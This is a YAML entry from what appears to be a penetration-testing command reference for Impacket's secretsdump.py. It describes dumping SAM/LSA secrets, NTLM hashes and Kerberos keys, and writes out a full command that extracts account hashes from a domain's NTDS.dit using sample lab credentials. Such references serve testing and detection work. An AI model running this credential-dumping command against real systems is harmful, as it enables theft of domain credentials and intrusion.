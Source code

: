 ```yaml
---
description: |
  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit. The following command will attempt to use the specified machines NTDS.dit and system file to extract the user account hashes associated with that machine.

  Command Reference:

  	Target IP: 10.10.10.2

  	Domain Controller: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 secretsdump.py -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip 10.10.10.1 test.local/john:password123@10.10.10.2
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy
---
```

